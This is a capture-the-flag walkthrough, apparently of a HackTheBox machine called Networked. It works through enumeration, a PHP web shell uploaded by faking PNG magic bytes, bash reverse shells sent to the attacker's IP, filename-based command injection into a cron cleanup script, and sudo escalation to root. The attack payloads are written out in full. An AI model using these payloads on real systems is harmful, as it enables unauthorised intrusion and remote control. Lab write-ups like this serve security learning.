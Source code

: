
Running nmap

```
nmap -sV 10.129.113.34
```

The webpage is just a quick paragraph that a website will be up soon.

I run gobuster against this apache website to discover any php files:

```
$ gobuster dir -u http://10.129.113.34/ -w sirectory-list-2.3-medium.txt -t 100 -x php

/index.php
/uploads
/upload.php
/backup
```

The `/backup` folder contains a tar archive, I download it:

```
wget http://10.129.113.34/backup/backup.tar
```

It contains the source for the php files. In the file I see the function `@mime_content_type($file['tmp_name']);`. This function in php determines a filetype based on its magic bytes. If we include the magic bytes for the file in the header of the file, we can bypass the filter.

Important to mention that the upload functionality only allows png file upload, but the extention `.php.png`, allows us to evade this while executing a php file. I create a file called `shell.php.png` with the following contents:

```
<?php
system($_REQUEST['cmd']);
?>
```

I create a new file with the magic bytes:

```
echo '89 50 4E 47 )D 0A 1A 0A' | xxd -p -r > mime_shell.php.png
cat shell.php.png >> mime_shell.php.png
```

I upload the file `mime_shell.php.png`, then visit the webpage "10.129.113.34/photos.php", and see the new image uploaded is called "uploaded_by_10_10_14_207.php.png" I visit the page "10.129.113.34/uploads/uploaded_by_10_10_14_207.php.png?cmd=id", when I visit the page I get the shell output of `id`. Following this logic I should be able to run a reverse shell.

Before running the reverse shell I set up a listener locally:

```
$ nc -lvp 1234
```

From my local I run:

```
curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.207/1234 0>&1"' http://10.129.113.34/uploads/10_10_14_207.php.png
```

The above command is a `curl` to the url "http://10.129.113.34/uploads/10_10_14_207.php.png", with the payload `cmd=bash -c "bash -i >& /dev/tcp/10.10.14.207/1234 0>&1"`.

This gets me shell access to the victim ip.

#### Lateral Movement

From examining the crontab file, we see that the check_attack.php script is executed every 3 minutes.

The script lists files in the /uploads folder and checks if it is valid based on filename. Any invalid files are removed using the system exec() function.

```

 exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```
The $value variable stores the filename, but isn’t sanitized by the script, which means that we can inject commands through special file names. For example, a file named “; cmd” will result in the command:
```

 nohup /bin/rm -f $path;cmd > /dev/null 2>&1 &
 ```

I run these commands on the victim ip:

```
bash-4.2$ echo -n 'bash -c "bash -i >/dev/tcp/10.10.14.207/4444 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuMjA3LzQ0NDQgMD4mMSI=

bash-4.2$ touch -- ';echo YmFzaCAtYyAiYmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuMjA3LzQ0NDQgMD4mMSI= | base64 -d | bash'

bash-4.2$ ls
ls
10_10_14_207.php.png
127_0_0_1.png
127_0_0_2.png
127_0_0_3.png
127_0_0_4.png
;echo YmFzaCAtYyAiYmFzaCAtaSA+L2Rldi90Y3AvMTAuMTAuMTQuMjA3LzQ0NDQgMD4mMSI= | base64 -d | bash
index.html
```

To describe what is going on in the above commands, the reverse shell is encoded in `base64`, `bash -i >/dev/tcp/10.10.14.207/4444 0>&1`. Then `touch` creates a filename with the command we want, `base64 -d` decodes the code encoded earlier, then `bash` executes the command.

After a few minutes, I get the shell on the listening port `4444`, I get access to the user `guly` and navigate to the user flag:

```
$ nc -lvp 4444
listening on [any] 4444 ...
10.129.113.34: inverse host lookup failed: Unknown host
connect to [10.10.14.207] from (UNKNOWN) [10.129.113.34] 47338
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
ls
check_attack.php
crontab.guly
dead.letter
user.txt
cat user.txt
3f716e7098ec9031e6826724bc9aa35e
```

Running `sudo -l`:

```
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

I execute that file and get root access and the root flag:

```
sudo /usr/local/sbin/changename.sh
interface NAME:
abc /bin/bash
interface PROXY_METHOD:
abc
interface BROWSER_ONLY:
abc
interface BOOTPROTO:
abc
id
uid=0(root) gid=0(root) groups=0(root)
...
cat /root/root.txt
f4dfc57131aa3a44b9b1f2592800d919
```